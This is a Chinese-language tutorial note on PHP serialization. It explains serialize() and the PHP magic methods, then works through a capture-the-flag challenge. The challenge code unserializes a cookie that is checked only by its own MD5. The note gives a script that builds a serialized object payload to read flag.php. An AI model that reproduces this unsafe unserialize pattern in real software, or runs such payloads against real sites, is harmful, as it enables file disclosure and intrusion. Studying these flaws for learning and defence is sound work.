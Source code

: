 ﻿---
title: Serialization-PHP
categories:
- Network_Security
- Web
- Serialization
- Principle
- PHP
tags:
- Network_Security
updated: 2024-01-04 20:24:53
---

# 序列化漏洞

## 1. 序列化介绍

1. 序列化就是将对象状态转换为可保持或者可传输的格式（例如 Json）的过程。其逆过程就是反序列化，即将流数据转换成对象。

## 2. PHP 序列化

### 1. 序列化的函数：

1. 在 PHP 中，使用 `serialize()` 方法来序列化一个变量。

### 2. 例子

1. 假设有这样的一段代码：

    ```php
    $arr = array( 
      "0" => array( 
        "gameName" => "德乙", 
        "homeName" => "比勒费尔德", 
        "guestName" => "不伦瑞克", 
        "endTime" => "2015-08-21" 
      ), 
      "1" => array( 
        "gameName" => "英超", 
        "homeName" => "水晶宫", 
        "guestName" => "阿斯顿维拉", 
        "endTime" => "2015-08-22" 
      ) 
    ); 
    
    $serialize = serialize($arr); 
    echo $serialize; 
    ```

    然后其序列化的结果为：

    ```php
    a:2:{i:0;a:4:{s:8:"gameName";s:6:"德乙";s:8:"homeName";s:15:"比勒费尔德";s:9:"guestName";s:12:"不伦瑞克";s:7:"endTime";s:10:"2015-08-21";}i:1;a:4:{s:8:"gameName";s:6:"英超";s:8:"homeName";s:9:"水晶宫";s:9:"guestName";s:15:"阿斯顿维拉";s:7:"endTime";s:10:"2015-08-22";}} 
    ```

    将其放在 PHP 在线反序列化的网站中反序列化，得到：

    ### ![image-20220607194428014](image-20220607194428014.png)

### 3. PHP 常见的 magic 方法：

| 方法名                                        | 触发点                                                       |
| --------------------------------------------- | ------------------------------------------------------------ |
| `__construct`                                 | 在创建对象时初始化对象（类似于构造函数），用于变量的初始化   |
| `__destruct`                                  | 对象销毁时调用，即用户销毁或者内核自动销毁时调用（有点像析构函数） |
| `__get`                                       | 用于从不可访问的属性读取数据，即在调用私有属性的时候会自动执行 |
| `__set`                                       | 用于将数据写入不可访问的属性                                 |
| `__isset`                                     | 在不可访问的属性上调用 `isset()` 或 `empty()` 触发           |
| `__unset`                                     | 和 `__isset` 类似                                            |
| `__call`                                      | 在对象上下文中调用不可访问或者不存在的方法时触发，即当调用对象中不存在的方法会自动调用该方法 |
| `__callStatic`                                | 在对象上下文中调用不可访问或者不存在的静态方法时触发，即当调用对象中不存在的方法会自动调用该方法 |
| `__sleep`                                     | 在调用 `serialize()` 时先被调用，其一般的作用是清理对象或者提交未提交的数据，并返回一个包含 对象中所有应该被序列化的变量名称的 数组（就是可以指定被序列化的内容）。如果未返回任何内容，那么 `null` 就会被序列化，并产生错误。 |
| `__wakeup`                                    | 在调用 `unserialize()` 时先被调用，返回空值，通常用于执行重新链接数据库或者其他初始化操作。 |
| `__serialize`<br/>适用于 PHP 7.4.0 以上版本   | 优先级高于 `__sleep()` 且会替代其执行，如果对象继承实现了 `Serializable` 接口，那么该对象的 `serialize()` 将会被 `__serialize`() 替代。 |
| `__unserialize`<br/>适用于 PHP 7.4.0 以上版本 | 和 `__serialize()` 差不多，同样会替代 `__wakeup()`           |
| `__toString`                                  | 和 Java 的 `toString()` 类似                                 |
| `__clone`                                     | 当对象被复制时调用                                           |
| ...还有其他方法，用到后就补充                 |                                                              |

### 4. 反序列化例题：`__toString()` 的反序列化

1. `__toString()`，和 Java 的 `toString()` 很类似，当一个类被当作字符串使用的时候（例如打印出来），就会自动调用该方法。

2. 题目源代码如下：

    ```php+HTML
    <?php
    // 创建一个类
    Class readme{
        public function __toString()
        {
            // __toString() 的结果是将变量 source 指代的文件在网页中格式化显示。
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    // 用 GET 给 source 随便传值就可以获得源代码 
    if(isset($_GET['source'])){
        $s = new readme();
        $s->source = __FILE__;
        echo $s;
        exit;
    }
    // $todos = [];
    if(isset($_COOKIE['todos'])){
        $c = $_COOKIE['todos'];
        // 变量 h 获取 cookie 的前 32 位
        $h = substr($c, 0, 32);
        // 变量 m 获取 cookie 的 32 位向后的字符串
        $m = substr($c, 32);
        // 如果 m 的 md5 hash 值和 h 相等，则反序列化变量 m 的内容
        if(md5($m) === $h){
            $todos = unserialize($m);
        }
    }
    // 感觉这里可以应用，因为他序列化并且加密了（待学习补充）
    if(isset($_POST['text'])){
        $todo = $_POST['text'];
        $todos[] = $todo;
        $m = serialize($todos);
        $h = md5($m);
        setcookie('todos', $h.$m);
        header('Location: '.$_SERVER['REQUEST_URI']);
        exit;
    }
    ?>
    <html>
    <head>
    </head>
    
    <h1>Readme</h1>
    <a href="?source"><h2>Check Code</h2></a>
    <ul>
        <!-- 这里将变量 todos 进行一个遍历（从 $todos[] = $todo;）以及其需要遍历来看，其本身应该是一个数组，那么需要传入一个数组 -->
        <?php foreach($todos as $todo):?>
            <li><?=$todo?></li>
        <?php endforeach;?>
    </ul>
    
    <form method="post" href=".">
        <textarea name="text"></textarea>
        <input type="submit" value="store">
    </form>
    ```

3. 因此构造脚本，生成序列化的结果和 md5 加密后的字符串

    ```php
    <?php
    // 类不变，直接拿过来
    Class readme{
        public function __toString()
        {
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    if(isset($_GET['source'])){
        $s = new readme();
        // 这里如果直接改成 flag.php，那么就可以直接读取到源码
        $s->source = 'flag.php';
        // 将变量 s 变成数组，因为它到时要被反序列化赋值给变量 todos
        $s=[$s];
        // 打印序列化的内容和序列化加密后的内容
        echo serialize($s);
        echo md5(serialize($s));
        echo $s;
        exit;
    }
    ```

4. 转换后的结果如下：

    ![image-20220617162348376](image-20220617162348376.png)

5. 在 burpsuite 中设置 cookie 值（url 编码），让其反序列化并在 html 代码中遍历打印（打印类时就会调用 `__toString()`），从而将 `flag.php` 显示出来。

    ![image-20220617162642514](image-20220617162642514.png)

6. 待学习补充：text 的作用。



